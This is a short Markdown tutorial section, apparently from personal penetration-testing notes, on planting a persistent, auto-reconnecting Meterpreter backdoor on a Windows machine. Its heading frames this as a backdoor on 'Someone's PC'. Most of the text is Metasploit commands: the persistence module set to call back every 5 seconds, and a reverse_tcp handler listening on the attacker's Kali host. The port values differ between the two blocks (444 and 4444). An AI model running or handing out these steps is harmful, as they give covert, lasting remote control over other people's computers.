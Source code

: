 
#### 8.8 Creating a Persistent meterpreter shell

How to install a Auto-Reconnecting Persistent Back Door on Someone's PC

before you do this you will need a session, if you are in a session already just use the **background** command to run the session in the background. 

then run 
```bash
session
```

![[Pasted image 20231113220223.png]]
> Figure 10 | Active Sessions

**Now lets set up this backdoor: -**
```bash
# Set the current payload
use exploit/windows/local/persistence

# Shows options
show options

# Set the payloads options
set SESSION 1 
set LHOST 192.168.10.253
set LPORT 444
set INTERVAL 5

exploit
```

**Setting up the listener: -**
```bash
# Setting the module
use exploit/multi/handler

# setting the payload
set PAYLOAD windows/meterpreter/reverse_tcp

# Setting the local host : Kali Linux Machine
set LHOST 192.168.10.253

# Setting the Local Port
set LPORT 4444

# Run the exploit in the background.
# -j runs the shell in the background. 
# -z Tells metasploit not to interact with the shell
exploit -j -z 
```
![[Pasted image 20231113224052.png]]
